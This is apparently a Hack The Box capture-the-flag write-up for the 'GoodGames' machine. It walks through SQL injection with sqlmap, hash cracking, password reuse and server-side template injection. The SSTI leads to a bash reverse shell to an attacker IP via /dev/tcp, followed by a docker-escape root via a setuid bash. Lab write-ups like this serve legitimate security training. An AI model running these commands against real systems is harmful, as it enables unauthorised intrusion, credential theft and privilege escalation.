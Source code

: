 ```yaml
---
title: HTB [GoodGames]
date: 2023-01-25 01:28:05 +0200
categories: [linux,sqli,password-reuse,ssti,docker-escape]
tags: [HACKTHEBOX MACHINES]
excerpt: GoodGames is an easy hackthebox machine that created by TheCyberGeek, which involves sqli in a login page to get a easily crackable hash, After logging in as admin we can see the Flask Volt service running on a different host. They've used same password for both hosts, so we can login there as admin and do a ssti to get initial shell, but it was a docker container and they've mounted the /home/<user> directory to that, so we can do a interesting method to privesc frome there
---
```



![](https://i.imgur.com/EfqCSt7.png)

## Recon

### port scan

```js
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-title: GoodGames | Community and Store
Service Info: Host: goodgames.htb
```

- Only a single port opened o.O
- Ok let's enum the website and scan for UDP ports in the background
- Add `goodgames.htb` to your `/etc/hosts` file

### web enum

- It's a flask application

![](https://i.imgur.com/TjldMp1.png)

<br>
- There's a signup page, let's create a new account and login

![](https://i.imgur.com/8WJJgWc.png)

- My name and email are reflecting here, so let's try for a SSTI

![](https://i.imgur.com/I21HlnV.png)

- There's no SSTI in username & email field

#### Forget password

![](https://i.imgur.com/O6r12TZ.png)

- It works normally

### SQLi

- SSTI not worked here, so let's try for SQL Injection

```js
sqlmap -u "http://goodgames.htb/login" --method=POST --data "email=a&password=a"
```

![](https://i.imgur.com/jei3zLo.png)

- Cool let's dump the db

```js
available databases [2]:
[*] information_schema
[*] main
```

- Let's use the main database

```js
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
```

- user seems interesting

```js
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| email    | varchar(255) |
| id       | int          |
| name     | varchar(255) |
| password | varchar(255) |
+----------+--------------+
```

- Dump all these things

![](https://i.imgur.com/TatSWpu.png)

- only the first one is in the box, other 5 accounts are mine, used to check ssti
- let's crack the hash `2b22337f218b2d82dfc3b6f77e7cb8ec`

![](https://i.imgur.com/7kaDX72.png)

- login with these creds `admingoodgames.htb:superadministrator`

![](https://i.imgur.com/OMtOOnW.png)

- There's a settings button in the profile page, it's not available for normal users
- And clicking that redirects us to `http://internal-administration.goodgames.htb/`
- Let's add this to our `/etc/hosts` file

## Shell

#### Internal-Administration

![](https://i.imgur.com/wpGG3VN.png)

- Let's use the password that we got from the sqli, `admin:superadministrator` 

![](https://i.imgur.com/iQqpODo.png)

- Successfully logged in

![](https://i.imgur.com/lqMECXH.png)

- In settings pannel we can able to do a SSTI

![](https://i.imgur.com/MVc0N0x.png)


![](https://i.imgur.com/ndI9WbM.png)

- Now let's try to get a rev shell
- The output says `uid = 0 (root)` so most likely it's a docker container
- Start a python server and serve a file named shell.sh

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.3/1337 <&1' 
```

![](https://i.imgur.com/i6j0QYy.png)

![](https://i.imgur.com/Ekeegqz.png)

- As I said earlier, we got shell as a docker container
- There's a user named `augustus`, you can grab the user.txt file from his home folder

## Privesc

![](https://i.imgur.com/rHNySlg.png)

- `.2` is the docker IP, and `.1` is always the host and it's the machine IP
- I'm going to upload a static nmap binary to scan all the internal ports of that IP
- Here is the link to download that [binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

![](https://i.imgur.com/vSrnhtf.png)

- Looks like firewall blocking us to access ssh, but we can access it from the docker

![](https://i.imgur.com/cyq4WmE.png)

- It's a guess that both machines have the same user called `augustus`, using the same password allows us to ssh into the host machine
- Enumerating the machine gives us nothing
- I've checked for all services, nothing seems interesting
- But it's wiered that we got the users home directory in the docker container
- Seems the file system is mounted with it
- Logout us augustus and go back to the docker container
- Create a `id_rsa` file using `ssh-keygen` command
- But that method failed, coz the root folder is for docker it's not mounted (See #beyond root part for more understanding)
- So let's copy the bash binary to our `agustus` home folder and give `u+s` (setuid) permissions for that

```
cp /bin/bash .
```
- Do this us `augustus`
- Then go back to the docker container

```
chown root:root /home/augustus/bash
chmod u+s /home/augustus/bash
```
- Do this as root user in docker container

![](https://i.imgur.com/3WgCFNL.png)

- Now `./bash -p` for the root
- Really It's a good game as the name of the machine

### Beyond root

- Let's go back to the docker container and chek for the mounted folders, run the command `mount`

![](https://i.imgur.com/4kXzzVb.png)

- Looks like the home folder of the `augustus` is mounted to the docker container 
- That's why we can able to change the permissions of the bash binary that has been copied to `augustus`' home folder
- Hope you've liked this writeup, cya soon :)